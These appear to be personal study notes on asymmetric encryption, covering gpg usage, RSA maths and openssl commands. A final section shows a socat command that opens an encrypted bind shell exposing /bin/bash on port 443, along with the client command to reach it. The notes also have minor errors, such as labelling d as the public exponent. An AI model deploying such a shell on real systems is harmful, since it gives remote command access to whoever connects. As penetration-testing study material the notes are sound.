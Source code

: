 ## Asymmetric Encryption

Asymmetric encryption can solve integrity, authenticity and nonrepudiation

Theory
- Public key to distribute 
- Private key is kept confidential
- `$A` (Holds private to decrypt, and public key to distribute) ` -> exchange  ->` `$B` (Holds public key to encrypt) 
```bash
gpg --gen-key
gpg --output example-pub.asc --armor --export Offsec # armor flag for output being in ASCII

echo "Asymmetric encryption example" > asymmetry.txt
gpg --recipient Offsec --encrypt asymmetry.txt
# transfer file
gpg --decrypt asymmetry.txt.gpg # requires passphrase
```
It can sometimes be tricky to recall who has to use which keys to encrypt and decrypt messages with asymmetric encryption. We can use the following mnemonics to help us remember: 
SUPER 
1. S = Sender 
1. U = Uses 
1. P = Public
1. E = Encryption-key of 
1. R = Receiver.

```goat
Alice -> Bob
1. Alice encrypts with Bob's public key
2. Bob decrypts with Bob's private key
Bob  -> Alice
1. Bob encrypts with Alice's public key
2. Alice decrypts with Alice's private key
```

Asymmetric key-pairs can also be used to sign and verify messages.
A will sign the message with private key and B verifies it with the public key - Signing != sending the private key!!

#### Asymmetric Encryption Mathematics

RSA got its name from its inventors, Rivest, Shamir, and Adleman

Prime Factorisation:

```bash
x * y = z # z being the unqiue product of two prime numbers, so for:
primes={p,q}
product=n

# Using n as base:
# Perform additional maths to output two special numbers e and d 
# !! such that their properties are relative to n
# Public key as a:
tuple(n,e)
# Private key as a: 
tuple(n,d)

# THM - to see real values for p and q:
# Generate a RSA
openssl genrsa -out private-key.pem 2048
# Using RSA make public key from private key
openssl rsa -in private-key.pem -pubout -out public-key.pem
# For the values of:
# p, q, n, e, d := prime1, prime2, modulus, publicExponent, publicExponent
# in the following command
openssl rsa -in private-key.pem -text -noout
```

#### Asymmetric Encrypted Bind Shells

Encrypted communication rely on the Secure Sockets Layer (SSL)
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 30 -out bind_shell.crt

# req = create a new certificate
# -newkey generate a new private key
# rsa:2048 defines the encryption algorithm we want to use. This is similar to the --cipher-algo flag used by gpg. In this case, we're using the RSA algorithm with a 2048-bit key length.
# -nodes create the private key without a passphrase
# -key save the generated private key to an output file in Base64 format.
# -x509 ensures that our certificate is self-signed; an  alternative is to use an existing certificate authority
# -days certificate is valid for
# -out saves the certificate to file, also in Base64 format
# This creates a bind_shell.crt(certificate) and bind_shell.key(private key)

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin//bash

# Host certificate with socat 

socat - OPENSSL:$IP:$PORT,verify=0 <cmd>
```

## References

[THM Room Introduction to Cryptography](https://tryhackme.com/room/cryptographyintr)